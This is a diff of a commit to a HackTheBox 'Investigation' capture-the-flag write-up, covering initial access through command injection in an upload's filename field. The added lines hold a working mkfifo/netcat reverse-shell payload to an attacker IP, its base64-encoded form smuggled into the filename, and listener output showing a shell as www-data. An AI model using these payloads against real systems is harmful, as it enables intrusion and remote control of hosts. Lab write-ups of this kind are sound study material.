

Before and after one commit to e-war/Writeups, a Markdown page: HackTheBox/Investigation/README.MD, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
initial access

````diff
--- a/HackTheBox/Investigation/README.MD
+++ b/HackTheBox/Investigation/README.MD
@@ -86,3 +86,27 @@ Interesting:
 ## Exploiting
 its enough to upload one image and save it into burpsuite repeater so you can edit the filename field within the form-data,
 to confirm the vulnerability was exploitable i used `filename="echo 'curl 10.10.14.70:8000' | bash |"` which did indeed call back to my host.
+
+if we add any other pipes to the command e.g. > the command will fail to run, however we can pass a b64 encoded command, pipe it to the base64 -d command to decode and pipe the result into bash to run it, which avoids the other pipes breaking it.
+
+```
+curl 10.10.14.70:8000/?d=$(rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 4444 >/tmp/f)
+b64 encoded:
+Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==
+
+filename="echo 'Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==' | base64 -d | bash |"
+
+```
+
+```
+nc -lvnp 4444
+Listening on 0.0.0.0 4444
+Connection received on 10.10.11.197 33714
+/bin/sh: 0: can't access tty; job control turned off
+$ whoami
+www-data
+
+
+```
+
+We have internal access to the box!
````
